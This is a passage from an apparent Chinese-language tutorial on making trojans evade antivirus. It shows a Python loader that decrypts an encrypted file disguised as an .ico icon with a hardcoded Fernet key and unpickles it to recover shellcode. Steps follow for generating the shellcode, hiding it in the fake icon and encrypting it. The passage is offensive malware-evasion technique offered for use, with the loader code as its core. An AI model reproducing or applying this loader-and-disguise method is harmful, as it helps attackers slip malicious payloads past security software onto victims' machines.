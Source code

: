 

#### PickleLoad.py

```python
import pickle
import ctypes
from cryptography.fernet import Fernet

temp=open("Encrypt_test.ico","rb").read()
key = b'2cAx5afBvED2B7vanLMy8TvRT3hG6uIJukWD9nu56Yk='
f_obj=Fernet(key)
temp=f_obj.decrypt(temp)
shellcode=pickle.loads(temp)
```



### 项目运行

首先运行`GenerateShellcode.py`生成shellcode.txt

随后运行`PickleDump.py`生成test.ico, 并对shellcode.txt和test.ico进行加密, 加密后的文件为`Encrypt_shellcode.txt`和`Encrypt_test.ico`, 此时注意控制台输出的key值为`b'2cAx5afBvED2B7vanLMy8TvRT3hG6uIJukWD9nu56Yk='`(PickleLoad.py会用到)

![image-20221120224944318](木马免杀之代码篇/image-20221120224944318.png)



打开`PickleLoad.py`, 将key值替换成上述生成的key值

![image-20221120225157291](木马免杀之代码篇/image-20221120225157291.png)

